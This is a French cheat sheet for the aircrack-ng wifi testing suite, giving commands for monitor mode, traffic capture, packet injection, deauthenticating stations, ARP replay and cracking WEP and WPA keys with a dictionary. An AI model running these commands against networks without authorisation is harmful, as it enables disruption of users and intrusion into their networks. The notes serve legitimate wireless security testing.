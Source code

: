 aircrack-ng
===========

*aircrack-ng* est une suite logicielle permettant de tester la sécurité des
réseaux sans-fil type 802.11 (wifi).

Un peu de vocabulaire :
* AP : Access Point
* STA : une station connectée à un AP
* essid : nom diffusé par l'AP.
* bssid : adresse MAC de l'AP

## Configuration

Pour voir les caractéristiques des interfaces wifi du système (on peut
connaître par exemple les modes possibles : `AP` ou `monitor` par
exemple) :
```
# iw list
```

ou
```
# iw phy phy0 info
```

Pour mettre l'interface `wlan0` en mode `monitor` :
```
# airmon-ng start wlan0
```

On peut fixer un canal d'écoute :
```
# airmon-ng start wlan0 9
```

Pour désactiver le mode `monitor` :
```
# airmon-ng stop wlan0mon
```

A noter que l'interface change de nom lorsqu'elle passe en mode
`monitor` : `wlan0` -> `wlan0mon`

Pour tuer les process qui pourraient gêner le changement de mode :
```
# airmon-ng check kill
```

## Utilisation

### Reconnaissance

Pour scanner les réseaux wifi disponibles :
```
# iwlist wlan0 scan
```

### Ecoute

Pour écouter (tous les réseaux) :
```
# airodump-ng wlan0mon
```

Pour spécifier en plus le *channel* et le *bssid* de l'AP cible et dumper la
capture (les fichiers générés auront le préfixe `dump`) :
```
# airodump-ng wlan0mon -c 9 --bssid XX:XX:XX:XX:XX:XX -w dump
```

### Injection de paquets

Pour tester une injection de paquets :
```
# aireplay-ng -9 -e <essid> -a <bssid> wlan0mon
```

Pour dés-authentifier une station (option `-0`) :
```
# aireplay-ng -0 <nombre_de_req_envoyées> -c <station_mac_addr> -a <bssid> wlan0mon
```

Pour rejouer du trafic (après qu'une station ait créé du trafic légitime) :
```
# aireplay-ng --arpreplay -b <bssid> -h <station_mac_addr> wlan0mon
```

### Crack clé WEP

Le principe ici est de capturer suffisamment de trafic (des *IVs*). On peut
rejouer des paquets si nécessaire pour générer plus de trafic.
```
# aircrack-ng *cap
```

### Crack clé WPA

Pour cracker une clé WPA avec un fichier de dictionnaire après avoir capturer
un *4-way-handshake*. On peut dés-authentifier une station si nécessaire pour
forcer sa ré-authentification.
```
# aircrack-ng -w dict.txt -b <bssid> dump.cap
```

On peut simplement lire le fichier de capture pour voir si des handshakes ont
été capturés :
```
# aircrack-ng <capture_file>
```

On peut ajouter l'option `-j` pour créer un fichier *HCCAPX* pour *hashcat* :
```
# aircrack-ng <capture_file> -j <hashcat_file_to_create>
```

Si on veut voir le handshake dans *Wireshark*, on peut appliquer ce filtre :
```
(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr==XX:XX:XX:XX:XX:XX
```

## Sources
* <https://linuxconfig.org/discover-hidden-wifi-ssids-with-aircrack-ng>
* <https://www.aircrack-ng.org/doku.php?id=simple_wep_crack>
* <https://www.aircrack-ng.org/doku.php?id=newbie_guide>
* <https://doc.ubuntu-fr.org/aircrack-ng>
